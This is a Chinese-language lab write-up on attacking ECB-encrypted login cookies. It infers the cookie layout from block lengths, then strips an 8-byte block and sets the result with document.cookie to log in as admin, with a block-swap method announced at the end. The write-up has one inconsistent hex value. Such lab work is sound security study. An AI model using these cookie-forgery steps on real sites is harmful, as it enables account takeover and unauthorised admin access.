   | 账户  | 密码 | cookie（`uri`解码后）              | cookie(`base64`解码后)                                       |
  | ----- | ---- | ---------------------------------- | ------------------------------------------------------------ |
  | 20个k | cuc  | `X/M5R1BuFnxf8zlHUG4WfPEBZ+734hwG` | `5f f3 39 47 50 6e 16 7c 5f f3 39 47 50 6e 16 7c f1 01 67 ee f7 e2 1c 06` |

  可以看到重复字节块在前，说明使用的是**“用户名+分隔符+密码”**的模式。为了进一步确定分隔符的大小，进行多组测试：![](C:\Users\Lenovo\Desktop\ECB漏洞利用\img\1234登录.png)

  ```
  cuc@cuc-lab:~$ echo W62PbquqiOk= | base64 -d | hexdump -C
  00000000  5b ad 8f 6e ab aa 88 e9                           |[..n....|
  00000008
  ```

  | 用户名（长度） | 密码（长度） | 用户名+密码总长度 | cookie解码后长度 |
  | -------------- | ------------ | ----------------- | ---------------- |
  | HK1（3）       | cuc(3)       | 6                 | 8                |
  | 1234 (4)       | cuc(3)       | 7                 | 8                |
  | test1 (5)      | cuc(3)       | 8                 | 16               |

  <center style="color:#C0C0C0">注：HK1和test1已经创建过，创建用户1234进一步测试</center>

  从上表中看到，当用户名+密码的长度大于7时，被解码后的cookie的大小从8字节增加到16字节。我们可以从这个值推断**分隔符是单字节**，因为加密是每个8字节的块完成的。如果在与分隔符对应的块之后删除所有内容，仍然可以通过身份验证。所以当应用程序使用cookie时，似乎不使用密码。只需要获得正确的用户名|分隔符，就可以在应用程序中作为用户名进行身份验证。

+ 创建一个用户，它将允许您通过删除加密的数据来以管理员身份登录。

  ![](C:\Users\Lenovo\Desktop\ECB漏洞利用\img\admin.png)

  ```
  #解密
  cuc@cuc-lab:~$ echo GkzSM2vKHdey4lt9zx5CP22PrvyO9z2t | base64 -d | hexdump -C
  00000000  1a 4c d2 33 6b ca 1d d7  b2 e2 5b 7d cf 1e 42 3f  |.L.3k.....[}..B?|
  00000010  6d 8f ae fc 8e f7 3d ad                           |m.....=.|
  00000018
  
  #删除前八个字节后再加密
  cuc@cuc-lab:~$ echo "b2e25b7dcf1e423f6b8faefc8ef73dad" | xxd -r -p |base64
  suJbfc8eQj9rj678jvc9rQ==
  ```

  在网页修改cookie：

  ```
  document.cookie='auth=suJbfc8eQj9rj678jvc9rQ==';
  ```

  ![](C:\Users\Lenovo\Desktop\ECB漏洞利用\img\修改cookie.png)

  刷新页面后成功以管理员身份登录：

  ![](C:\Users\Lenovo\Desktop\ECB漏洞利用\img\管理员身份登录.png)

+ 创建一个用户，通过交换加密块实现以管理员身份登录。

  从前面的实验可以得出分隔符是一个字节，所以可以创建完美用户名和密码实现交换块从而获得正确的伪造值。
